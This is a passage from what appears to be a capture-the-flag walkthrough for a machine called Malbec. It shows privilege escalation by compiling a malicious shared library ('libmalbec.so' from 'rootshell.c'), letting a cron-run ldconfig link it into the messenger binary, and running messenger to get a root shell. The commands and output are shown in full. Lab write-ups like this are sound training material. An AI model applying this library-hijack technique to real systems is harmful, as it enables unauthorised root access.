 ```bash 
```
It seems the PATH variable has not been exported. To fix this, we'll export this variable.
```bash 
carlos@malbec:/home/carlos$ export PATH
export PATH
carlos@malbec:/home/carlos$ export
export
declare -x LS_COLORS=""
declare -x OLDPWD
declare -x PATH="/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:."
declare -x PWD="/home/carlos"
declare -x SHLVL="1"
carlos@malbec:/home/carlos$
```
Let's try to compile again.
```bash 
carlos@malbec:/home/carlos$ gcc rootshell.c -o libmalbec.so -shared -Wall -fPIC -w
< rootshell.c -o libmalbec.so -shared -Wall -fPIC -w
carlos@malbec:/home/carlos$ ls -l libmalbec.so
ls -l libmalbec.so
-rwxr-xr-x 1 carlos carlos 16088 Jan 27 11:38 libmalbec.so
```
The compiler runs without further issues. Good. Remembering that ldconfig runs on a crontab schedule, we will wait two minutes for our library to be found. Then, we can test for successful linking of our malicious library with ldd.
```bash 
carlos@malbec:/home/carlos$ ldd /usr/bin/messenger
ldd /usr/bin/messenger
        linux-vdso.so.1 (0x00007ffd752d6000)
        libmalbec.so => /home/carlos/libmalbec.so (0x00007f498cc00000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f498ca3f000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f498cc1a000)
```
Excellent. The process picked up our library. If we run the messenger binary, we should drop into a root shell:
```bash 
carlos@malbec:/home/carlos$ id
id
uid=1000(carlos) gid=1000(carlos) groups=1000(carlos)
carlos@malbec:/home/carlos$ messenger
messenger
root@malbec:/home/carlos# id
id
uid=0(root) gid=0(root) groups=0(root),1000(carlos)
```